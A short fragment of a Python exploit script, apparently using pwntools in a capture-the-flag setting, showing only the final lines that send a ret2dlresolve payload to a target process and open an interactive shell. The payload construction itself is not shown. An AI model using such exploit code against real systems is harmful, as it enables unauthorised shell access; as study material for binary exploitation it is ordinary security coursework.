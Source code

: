 ```python

    # Send the relocation and symbol structs, the symbol, and the argument
    log.info(f'Sending dlresolve payload at address {hex(data_addr)}:\n{hexdump(payload)}')
    p.sendline(payload)

    # Get shell
    p.interactive()
```